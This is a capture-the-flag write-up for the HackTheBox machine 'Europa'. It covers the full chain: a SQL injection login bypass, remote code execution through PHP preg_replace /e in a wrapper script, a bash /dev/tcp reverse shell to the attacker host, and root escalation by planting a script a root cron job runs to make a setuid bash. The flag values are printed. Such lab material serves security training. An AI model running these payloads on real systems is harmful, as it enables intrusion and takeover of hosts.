


# Target
| Category          | Details                                                     |
|-------------------|-------------------------------------------------------------|
| 📝 **Name**       | [Europa](https://app.hackthebox.com/machines/Europa)        |  
| 🏷 **Type**       | HTB Machine                                                 |
| 🖥 **OS**         | Linux                                                       |
| 🎯 **Difficulty** | Medium                                                      |
| 📁 **Tags**       | SQLi, authentication bypass, preg_replace() /e RCE, crontab |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ nmap -sS -sC -sV -p- $TARGET   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 21:35 +0100
Nmap scan report for 10.129.17.99
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.41 seconds
```

#### Add domains discovered in SSL certificate to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ echo "$TARGET europacorp.htb www.europacorp.htb admin-portal.europacorp.htb" | sudo tee -a /etc/hosts
10.129.17.99 europacorp.htb www.europacorp.htb admin-portal.europacorp.htb
```

#### Discover login page to admin panel at `admin-portal.europacorp.htb`
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ curl -I https://admin-portal.europacorp.htb/ -k
HTTP/1.1 302 Found
Date: Fri, 06 Mar 2026 06:20:57 GMT
Server: Apache/2.4.18 (Ubuntu)
Location: https://admin-portal.europacorp.htb/login.php
Content-Type: text/html; charset=UTF-8
```

#### Discover admin email address in SSL certificate
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ openssl s_client -connect admin-portal.europacorp.htb:443 </dev/null 2>/dev/null | openssl x509 -inform pem -text | grep email
        Issuer: C=GR, ST=Attica, L=Athens, O=EuropaCorp Ltd., OU=IT, CN=europacorp.htb, emailAddress=admin@europacorp.htb
        Subject: C=GR, ST=Attica, L=Athens, O=EuropaCorp Ltd., OU=IT, CN=europacorp.htb, emailAddress=admin@europacorp.htb
```

#### Store raw HTTP request in file for SQLi enumeration
Request obtained with `Burp Suite`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ cat <<'EOF'> login.http
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=ql7l26taspe8cvjhrqmeeipqf1
Content-Length: 46
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="141", "Not?A_Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://admin-portal.europacorp.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin-portal.europacorp.htb/login.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

email=admin%40europacorp.htb&password=password
EOF
```

#### Use `login.http` to enumerate target with `sqlmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ sqlmap -r login.http --level 5 --risk 3 --force-ssl -v 5
<SNIP>
[07:28:03] [PAYLOAD] admin@europacorp.htb' AND 8601=8601-- TMMt
[07:28:03] [TRAFFIC OUT] HTTP request [#11]:
POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=ql7l26taspe8cvjhrqmeeipqf1
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="141", "Not?A_Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://admin-portal.europacorp.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://admin-portal.europacorp.htb/login.php
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-length: 78
Connection: close

email=admin%40europacorp.htb%27%20AND%208601%3D8601--%20TMMt&password=password

[07:28:04] [TRAFFIC IN] HTTP redirect [#11] (302 Found):
Date: Fri, 06 Mar 2026 06:28:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: https://admin-portal.europacorp.htb/dashboard.php
Content-length: 0
Connection: close
Content-type: text/html; charset=UTF-8
got a 302 redirect to 'https://admin-portal.europacorp.htb/dashboard.php'. Do you want to follow? [Y/n] N
<SNIP>
```
`sqlmap` was able to bypass authentication using `admin@europacorp.htb' AND 8601=8601-- TMMt`

#### Use SQLi to bypass authentication
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ curl -v -c cookies.txt https://admin-portal.europacorp.htb/login.php -k -d 'email=admin%40europacorp.htb%27%20AND%208601%3D8601--%20TMMt&password=password'
<SNIP>
< HTTP/1.1 302 Found
< Date: Fri, 06 Mar 2026 06:35:08 GMT
< Server: Apache/2.4.18 (Ubuntu)
* Added cookie PHPSESSID="h9e8vgmv60chrv1c3fin0cv2v1" for domain admin-portal.europacorp.htb, path /, expire 0
< Set-Cookie: PHPSESSID=h9e8vgmv60chrv1c3fin0cv2v1; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: https://admin-portal.europacorp.htb/dashboard.php
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
<SNIP>
```

#### Discover `/tools/php` endpoint


#### Capture HTTP POST request


This endpoint has `OpenVPN Config Generator` functionality which is basically 'find & replace'. Captured HTTP POST request is using `pattern=%2Fip_address%2F&ipaddress=10.10.16.16&text=...` payload. Pattern `/ip_address/` might suggest that `preg_replace()` being used. This function might support `/e` modifier which is special regex flag that tells PHP to execute the replacement string as PHP code. This could be used as RCE attack vector.

#### Use `/cmd/e` pattern for RCE
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ CMD=$(echo -n 'id' | jq -sRr @uri)
curl -s -b cookies.txt https://admin-portal.europacorp.htb/tools.php -k -d "pattern=%2Fcmd%2Fe&ipaddress=system('$CMD')&text=cmd" | grep gid | head -n 1
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Prepare `cmd.sh` exploit
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ ( cat <<'EOF'> cmd.sh
CMD=$(echo -n "$1" | jq -sRr @uri)
curl -s -b cookies.txt https://admin-portal.europacorp.htb/tools.php -k -d "pattern=%2Fcmd%2Fe&ipaddress=system('$CMD')&text=cmd"
EOF
) && chmod +x cmd.sh
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ nc -lvnp 4444      
listening on [any] 4444 ...
```

#### Spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Europa]
└─$ ./cmd.sh '/bin/bash -c "bash -i >& /dev/tcp/'${LHOST}'/'${LPORT}' 0>&1"'
```

#### Confirm foothold gained
```
connect to [10.10.16.16] from (UNKNOWN) [10.129.17.99] 40036
bash: cannot set terminal process group (1408): Inappropriate ioctl for device
bash: no job control in this shell
www-data@europa:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Capture user flag
```
www-data@europa:/$ cat /home/john/user.txt 
36861318fc57a599aa052a1d70d35b26
```

### Root flag

#### Discover `clearlogs` being executed every minute as `root` user
```
www-data@europa:/$ cat /etc/crontab
<SNIP>
* * * * *       root    /var/www/cronjobs/clearlogs
```

#### Analyze `/var/www/cronjobs/clearlogs`
```
www-data@europa:/$ cat -n /var/www/cronjobs/clearlogs
     1  #!/usr/bin/php
     2  <?php
     3  $file = '/var/www/admin/logs/access.log';
     4  file_put_contents($file, '');
     5  exec('/var/www/cmd/logcleared.sh');
     6  ?>
```
`exec` in line 5 is potential PE attack vector.

#### Check `/var/www/cmd/logcleared.sh` write permissions 
```
www-data@europa:/$ ls -l /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory
www-data@europa:/$ ls -la /var/www/cmd/
total 8
drwxrwxr-x 2 root www-data 4096 May 17  2022 .
drwxr-xr-x 6 root root     4096 May 17  2022 ..
```
`/var/www/cmd/logcleared.sh` does not exist, but we have write permissions to `/var/www/cmd`.

#### Prepare root shell creator
```
www-data@europa:/$ echo 'cp /bin/bash /tmp/root_shell && chmod +s /tmp/root_shell' > /var/www/cmd/logcleared.sh && \
chmod +x /var/www/cmd/logcleared.sh
```

#### Wait for `crontab` to create `/tmp/root_shell` and use it to escalate to `root` user
```
www-data@europa:/$ /tmp/root_shell -p
root_shell-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

#### Capture root flag
```
root_shell-4.3# cat /root/root.txt
c16ba8c227c4d5d3c06e14228a928b4b
```
